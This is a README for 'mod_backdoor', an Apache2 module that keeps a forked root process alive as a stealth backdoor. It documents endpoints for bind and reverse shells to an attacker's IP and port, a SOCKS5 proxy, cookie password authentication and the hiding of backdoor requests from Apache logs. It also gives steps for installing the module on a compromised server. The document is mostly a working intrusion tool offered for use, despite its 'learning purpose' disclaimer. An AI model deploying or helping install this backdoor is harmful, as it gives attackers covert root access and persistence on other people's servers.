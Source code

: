 # Apache2 mod_backdoor

mod_backdoor is a stealth backdoor using an Apache2 module.<br/>
The main idea is to fork() the primary Apache2 process just after it has loaded its config.
Since it's forked before the root user transfers the process to www-data, you can execute command as root.<br/>
As Apache2 loads its configuration only when you (re)start it, the challenge was to never let die this 
forked root apache2 process, to let us interact as root with the compromised system.

# Features

* Bind TTY Shell
* Reverse Shell (TTY , Native, PHP, Perl, Python, Ruby)
* High stability and reliability, each shell spawns 
a new forked independent root process **attached to PID 1** and **removed from apache2 cgroup**
* Socks5 proxy
* Password Protection through cookie headers
* Ping module to know if its still active
* Bypass logging mechanism. Each request to the backdoor module **are not logged** by Apache2.
* Works on systemd systems, but should also work with init-like systems (with some adjustements, explained in Description section).

# Demo
[![asciicast](https://asciinema.org/a/289452.svg)](https://asciinema.org/a/289452)
# Description

* The password is send through Cookie headers: `Cookie: password=backdoor`. It's defined with `#define` 
in the beginning of mod_backdoor.c, so you could easily edit it.<br/>

* Each following requests must contain this password to interact with the module.<br/>
* Each request containing this cookie **will not be logged by Apache** if the module is running. <br/>

* Each shell spawns **attached to PID** 1 and **is removed from apache2 cgroup**.
 It means it's possible to **restart/stop apache2.service from a spawned shell** (not true for 
 TTY shells because an apache2 process is needed to do the bidirectional communication between socket
 and pty). It also improves stealth, shells are no longer related to apache2.service. <br/>
 * IPC socket is stored in the private /tmp folder provided by systemd service (by default). 

On non-systemd systems, it should work aswell. The main differences are, with systemd, the IPC socket is stored in a private `/tmp/`.</br>
This private `/tmp` is automatically cleaned up when apache2 `<stop || restart>`. Systemd automatically kills all instance of apache2 when you ask for a `<stop || restart>` .<br/>
<br/>
This is not the same behavior with init-like systems. There isn't private `/tmp` for the application, so the IPC socket is created in the public `/tmp`.<br/>
The init service script doesn't know the PID of the forked root apache2 process, so our root process will not be killed by the script.<br/>
It means apache2 won't restart automatically because there is already a process listening on port 80 
(our root process). 
And if you kill it manually, the forked root apache2 process won't bind to IPC socket because
it tries to create another one on the same place (I've not handled the error \o/ ).<br/>
<br/>
The workaround I've found is to replace the `/var/run/apache2/apache2.pid` with the PID of our forked root apache2 process and save the original one.<br/>
Doing so, it allows catching signal for a process you don't own:<br/>
 --> Overwrite signal handler for `SIGTERM / SIGKILL` in order to :
* Remove IPC socket
* Remove cgroup2 folder
* Put original PID in `/var/run/apache2/apache2.pid`
* Call `apachectl stop` to simulate the original behavior of the init script.
* Exit our forked root apache2 process

**If you have a better idea for init-like system, feel free to contact me (or PR) !** <br/>

The apache2 server needs to be compiled with the mod_so to allow Dynamic Shared Object (DSO) support.
### Bind TTY Shell
The endpoint  `http[s]://<TARGET>/bind/<PORT>` binds a listening port on `<TARGET>:<PORT>` <br/>
When a connection is initiated to the listening port, the port closes. <br/>
`forkpty()` is used to obtain a native TTY shell, working with an IPC UNIX socket to communicate 
between forked TTY process and the new socket you just opened.<br/>
Shells could be easily upgraded with the famous trick:<br/>
 `CTRL-Z --> stty raw -echo --> fg --> reset`

### Reverse TTY Shell
It works like the bind shell, the endpoint `http[s]://<TARGET>/revtty/<IP>/<PORT>` returns a TTY
shell to `<IP>:<PORT>` <br/>


### Reverse Shell (No TTY)
The endpoint `http[s]://<TARGET>/reverse/<IP>/<PORT>/<PROG>` returns a shell to `<IP>:<PORT>`. <br/>
`<PROG>` must be one of these: <br/>
<p align="center">

| Native   | External  |    
| :------: | :--------:|
|   sh     |    php    |
|   bash   |    python |
|   dash   |    ruby   |
|   ash    |    perl   |
|   tcsh   |           |
|   ksh    |           |

</p>

`<PROG>` must be in lower-case.<br/>
PHP uses the `exec` function.<br/>
Ruby isn't using `/bin/sh`.

### Socks5 proxy
Source code comes from https://github.com/rofl0r/microsocks <br/>
The endpoint `http[s]://<TARGET>/proxy/<PORT>/<USER>` opens a socks5 proxy on `<PORT>`. 
`<USER>` is optional. If you set it, it activates the auth mode. Password is the same as the mod_backdoor.<br/>
Once a specific ip address authed successfully with `user:pass`, it is added to a whitelist and may use the proxy without auth. 
This is handy for programs like firefox that don't support `user:pass` auth.<br/>
For it to work you'd basically make one connection with another program that supports it, and then you can use firefox too.<br/>
Example:<br/>
1. `curl -H 'Cookie: password=backdoor' http://<TARGET>/proxy/1337/vlad` <br/>
--> Start socks proxy on port 1337 for `vlad` user 
2. `curl -x socks5://vlad:password=backdoor@<TARGET>:1337 https://www.google.com` <br/>
--> Register your IP address
3. You could now use it without auth
4. When you're done, you can kill the socks proxy by sending `imdonewithyou` in a socket <br/>
--> `echo "imdonewithyou" | nc <TARGET> 1337`

### Ping module
The endpoint `http[s]://<TARGET>/ping` tells you if the module is currently working.

# Notes
Apache2 Module Backdoor is inspired from Ringbuilder, created by Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL))<br/>
More info about Ringbuilder:<br/>
https://github.com/TarlogicSecurity/mod_ringbuilder <br/>
https://www.tarlogic.com/en/blog/backdoors-modulos-apache/ <br/>

Socks5 code was adapted from https://github.com/rofl0r/microsocks <br/>
<br/>
Special thanks to [@Ug_0Security](https://twitter.com/Ug_0Security)

# Builds
For development :<br/>
* `apxs -i -a -c mod_backdoor.c sblist.c sblist_delete.c server.c -Wl,-lutil` <br/>
 `-Wl,-lutil` used to link mod_backdoor.so with libutil.so to use forkpty() from <pty.h>
* `systemctl restart apache2`

On a compromised server :<br/>
* Compile it for the desired arch and retrieve the mod_backdoor.so or<br/>
get it from the `build/` folder (compiled for: Apache/2.4.41 (Debian)).
* Copy mod_backdoor.so to `/usr/lib/apache2/modules/mod_backdoor.so`
* Copy backdoor.load to `/etc/apache2/mod-available/backdoor.load`
* `a2enmod backdoor` --> `systemctl restart apache2`

# Author
Vlad Rico ([@RicoVlad](https://twitter.com/RicoVlad))

## Disclaimer
This project was created only for learning purpose.<br/>
Usage of mod_backdoor for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program.
